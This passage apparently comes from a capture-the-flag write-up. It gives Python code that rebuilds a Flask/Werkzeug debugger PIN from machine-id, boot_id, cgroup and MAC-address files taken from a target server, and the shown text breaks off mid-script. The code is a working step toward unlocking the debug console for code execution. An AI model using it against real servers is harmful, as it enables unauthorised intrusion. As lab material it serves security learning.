 likewise for the machine_id private bit, the article provided some code to read the files and concatenate them with some formatting. The only thing I changed here was to read files from the local directory (which I had downloaded from the server)

```python
machine_id = b""

for filename in "machine-id", "boot_id":

	try:	
		with open(filename, "rb") as f:	
			value = f.readline().strip()	
	except OSError:	
		continue	
	if value:	
		machine_id += value
	break

try:
	with open("cgroup", "rb") as f:
		machine_id += f.readline().strip().rpartition(b"/")[2]
except OSError:
	pass

  
private_id = machine_id.decode()
```

Putting it altogether we get our complete script

```python
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
        'root',# username  - changed, our applications runs as root
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python3.10/site-packages/flask/app.py' # we have 3.10
]


# format address
with open("address", "rb") as f:
    value = f.readline().decode().strip()


private_addres = str(int("".join(value.split(":")), 16))

print(private_addres)

# Read files for machine id
machine_id = b""
for filename in "machine-id", "boot_id":
    try:
        with open(filename, "rb") as f:
            value = f.readline().strip()
    except OSError:
        continue
    if value:
        machine_id += value
    break

try:
```